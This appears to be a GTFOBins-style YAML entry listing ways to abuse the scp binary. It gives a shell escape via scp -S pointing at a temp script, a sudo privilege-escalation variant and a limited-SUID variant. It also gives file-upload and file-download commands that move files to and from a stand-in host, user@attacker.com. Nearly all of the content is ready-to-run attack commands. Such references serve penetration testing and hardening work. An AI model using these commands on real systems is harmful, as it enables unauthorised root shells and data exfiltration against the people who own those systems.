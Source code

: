 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        scp -S $TF x y:
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_save
        LPATH=file_to_send
        scp $LFILE $RPATH
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_get
        LFILE=file_to_save
        scp $RPATH $LFILE
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod 755 "$TF"
        sudo scp -S $TF x y:
  limited-suid:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        ./scp -S $TF a b:
---
```


